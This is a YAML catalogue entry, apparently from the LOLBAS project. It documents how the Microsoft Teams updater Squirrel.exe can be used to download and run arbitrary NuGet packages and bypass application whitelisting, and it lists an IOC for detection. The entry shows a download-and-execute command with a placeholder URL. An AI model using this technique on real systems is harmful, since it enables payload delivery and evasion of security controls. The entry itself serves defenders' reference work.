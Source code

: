 ```yaml
---
Name: Squirrel.exe
Description: Binary to update the existing installed Nuget/squirrel package. Part of Microsoft Teams installation.
Author: 'Reegun J (OCBC Bank) - @reegun21'
Created: '2019-06-26'
Commands:
  - Command: squirrel.exe --download [url to package]
    Description: The above binary will go to url and look for RELEASES file and download the nuget package.
    Usecase: Download and execute binary
    Category: Execute
    Privileges: User
    MitreID: T1218 
    MitreLink: https://attack.mitre.org/techniques/T1218/
    OperatingSystem: Windows 7 and up with Microsoft Teams installed
  - Command: squirrel.exe --download [url to package]
    Description: The above binary will go to url and look for RELEASES file and download the nuget package.
    Usecase: Download and execute binary
    Category: AWL Bypass
    Privileges: User
    MitreID: T1218
    MitreLink: https://attack.mitre.org/techniques/T1218/
    OperatingSystem: Windows 10
  - Command: squirrel.exe --download [url to package]
    Description: The above binary will go to url and look for RELEASES file and download the nuget package.
    Usecase: Download and execute binary
    Category: Download
    Privileges: User
    MitreID: T1218
    MitreLink: https://attack.mitre.org/techniques/T1218/
    OperatingSystem: Windows 7 and up with Microsoft Teams installed
Full_Path:
  - Path: '%localappdata%\Microsoft\Teams\current\Squirrel.exe'
Code_Sample: 
  - Code: https://github.com/jreegun/POC-s/tree/master/nuget-squirrel
Detection: 
  - IOC: Update.exe spawned an unknown process
Resources:
  - Link: https://www.youtube.com/watch?v=rOP3hnkj7ls
  - Link: https://twitter.com/reegun21/status/1144182772623269889
  - Link: http://www.hexacorn.com/blog/2018/08/16/squirrel-as-a-lolbin/
Acknowledgement:
  - Person: Reegun J (OCBC Bank)
    Handle: '@reegun21'
  - Person: Adam
    Handle: '@Hexacorn'
---
```

